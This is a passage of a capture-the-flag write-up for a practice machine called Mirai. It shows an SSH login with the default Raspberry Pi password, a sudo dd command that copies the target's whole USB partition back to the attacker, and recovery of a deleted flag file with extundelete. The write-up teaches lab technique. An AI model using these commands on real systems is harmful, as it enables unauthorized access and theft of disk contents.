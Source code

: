     
    
    oxdf@hacky$ sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
    512 bytes copied, 1 s, 0.4 kB/s20480+0 records in
    20480+0 records out
    10485760 bytes (10 MB) copied, 0.142368 s, 73.7 MB/s
    
    93+1 records in
    93+1 records out
    48104 bytes (48 kB, 47 KiB) copied, 1.44623 s, 33.3 kB/s
    

I’ll break that down a bit:

  * `sshpass -p raspberry` \- use the password “raspberry” for the following SSH command (like `ssh` and `scp`)
  * `ssh pi@10.10.10.48 "[command]"` \- SSH into Mirai and run the command
  * `sudo dd if=/dev/sdb` \- read all of `/dev/sdb` and print it to STDOUT
  * `| gzip -1 -` \- compress the file read from STDIN (`-`) and print the result to STDOUT
  * The result of that command run over SSH is now printed to STDOUT on my local VM
  * `| dd =of=usb.gz` \- write that output to `usb.gz`

I’ll decompress it:

    
    
    oxdf@hacky$ file usb.gz 
    usb.gz: gzip compressed data, last modified: Mon May 16 17:37:15 2022, max speed, from Unix, original size modulo 2^32 10485760
    oxdf@hacky$ gunzip usb.gz 
    oxdf@hacky$ file usb 
    usb: Linux rev 1.0 ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e722026db3c (extents) (huge files)
    oxdf@hacky$ ls -hl usb 
    -rwxrwx--- 1 root vboxsf 10M May 16 17:37 usb
    

The resulting file is a 10M ext4 partition.

#### extundelete

`extundelete` is a [data recovery
utility](http://extundelete.sourceforge.net/) that works here to recover
`root.txt`. I’ll install it (`sudo apt install extundelete`) and then run it
with the `--recover-all` flag:

    
    
    oxdf@hacky$ extundelete usb --restore-all
    NOTICE: Extended attributes are not restored.
    Loading filesystem metadata ... 2 groups loaded.
    Loading journal descriptors ... 23 descriptors loaded.
    Searching for recoverable inodes in directory / ... 
    1 recoverable inodes found.
    Looking through the directory structure for deleted files ... 
    0 recoverable inodes still lost.
    
